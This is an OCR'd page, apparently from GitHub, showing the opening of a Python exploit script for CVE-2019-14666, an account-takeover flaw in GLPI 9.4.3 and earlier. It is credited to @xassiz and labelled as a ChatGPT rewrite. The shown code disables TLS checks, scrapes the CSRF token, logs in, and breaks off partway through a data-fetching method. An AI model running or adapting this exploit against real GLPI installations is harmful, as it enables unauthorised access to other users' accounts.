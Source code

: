 # chat gpt rewrite
```python
#!/usr/bin/python
#
#  Description: Exploit for CVE-2019-14666 (GLPI <=9.4.3 account takeover)
#  Author: @xassiz (Tarlogic)
#
import re
import sys
import json
import argparse
import requests


class GlpiBrowser:
    def __init__(self, url, user, password):
        self.url = url
        self.user = user
        self.password = password

        self.session = requests.Session()
        self.session.verify = False
        requests.packages.urllib3.disable_warnings()

    def extract_csrf(self, html):
        return re.findall('name="_glpi_csrf_token" value="([a-f0-9]{32})"', html)[0]

    def get_login_data(self):
        r = self.session.get('{0}'.format(self.url), allow_redirects=True)

        csrf_token = self.extract_csrf(r.text)
        name_field = re.findall('name="(.*)" id="login_name"', r.text)[0]
        pass_field = re.findall('name="(.*)" id="login_password"', r.text)[0]

        return name_field, pass_field, csrf_token

    def login(self):
        try:
            name_field, pass_field, csrf_token = self.get_login_data()
        except Exception as e:
            print("[-] Login error: could not retrieve form data")
            sys.exit(1)

        data = {
            name_field: self.user,
            pass_field: self.password,
            "auth": "local",
            "submit": "Post",
            "_glpi_csrf_token": csrf_token
        }

        r = self.session.post('{}/front/login.php'.format(self.url), data=data, allow_redirects=False)

        return r.status_code == 302

    def get_data(self, field, term=None):
        params = {
            "field": field,
            "term": term if term else ""
        }

```